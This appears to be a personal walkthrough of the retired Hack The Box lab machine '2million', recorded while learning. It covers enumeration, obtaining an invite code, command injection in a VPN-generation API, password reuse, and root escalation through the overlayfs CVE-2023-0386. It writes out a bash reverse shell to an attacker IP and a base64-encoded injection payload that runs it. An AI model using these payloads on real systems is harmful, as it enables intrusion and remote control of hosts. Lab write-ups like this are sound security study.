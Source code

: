 # 2million - Retired Machine - Guided Mode

```bash
nmap -p- -sV -sC --min-rate 500 <ipaddress>
```

Saw two open ports — an SSH and HTTP port.

In the HTTP port part, it says that it redirects to a domain.

Added the domain and IP in the `/etc/hosts` file.

Opened the HTTP site in the browser. Could see that we can log in, but to register we need an invite code.

Turned on BurpSuite proxy, and I could see that when we go to `/invite` to give the invite code, it calls a JS file called:

```
inviteapi.min.js
```

It contained obscured JS code using `eval()`, so I copied and put the code in:

[https://lelinhtinh.github.io/de4js/](https://lelinhtinh.github.io/de4js/)

This revealed two functions with AJAX calls. One function is called `makeInviteCode`, and it has an AJAX call.

Using BurpSuite Repeater, I simulated the AJAX call and it returned instructions which were encoded in **ROT13**. Using a ROT13-to-text converter, I got the actual endpoint which we had to use — something like:

```
/invite/generate
```

(Might be wrong)

Once I hit that API using Repeater, it returned a code encoded in **Base64**, which I then converted to normal text using an online Base64-to-text converter — and we get the **invite code**.

Then we sign up and login as a user. I tried all the API calls that happen in the web app.

Now we notice that all the API calls start with `/api/v1`.

When I hit that directly, it returns **all the routes**, including admin routes.

There’s a route to generate a VPN for a particular user. When we hit it with an empty body, it responds asking for a `username` param in the body.

When passed, it returns the VPN file for that particular user — so it should be executing commands in the OS to generate VPN files. In the `username` property, we pass something like:

```bash
blah;whoami;
```

And it returned the name `www-data`. So we pass a reverse shell bash script encoded in Base64.

We encode this:

```bash
echo 'bash -i >& /dev/tcp/10.10.14.135/1234 0>&1'
```

Then we pass the param like:

```bash
blah;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMzUvMTIzNCAwPiYx | base64 -d | bash;
```

Then we get the reverse shell.

We see in the web app files a `.env` file which had the DB password. I reused it for a user I found by reading `/etc/passwd`, which had a user called `admin`. I used the username and password for the SSH login and got in.

Before all that I kinda stumbled around, connected to the MySQL DB with credentials in the `.env` file and dumped the DB, but the passwords were salted so I couldn’t crack them without the key — idk if I should have gone about it more, but I moved on with the walkthrough.

Now as logged in as `admin`, got the **user flag**.

In one of the emails in `/var/mail`, we see a mail from someone saying to fix a vulnerability regarding **overlayfs** by updating OS. We find the CVE which is:

```
CVE-2023-0386
```

Found a PoC exploit and git cloned it into my device. Used `tar` to archive it and then hosted it with a simple Python server.

On the victim’s terminal, using `wget`, I downloaded it and ran the exploit as mentioned in the README — and got **root terminal access** and got the **root flag**.

In the walkthrough, there was mention of another alternate way to privilege escalate if I had checked:

```bash
ldd --version
```

Which returned version 2.35, which is vulnerable to:

```
CVE-2023-4911
```

This one exploits a stack buffer overflow while reading the env variable `GLIBC_TUNABLES`.
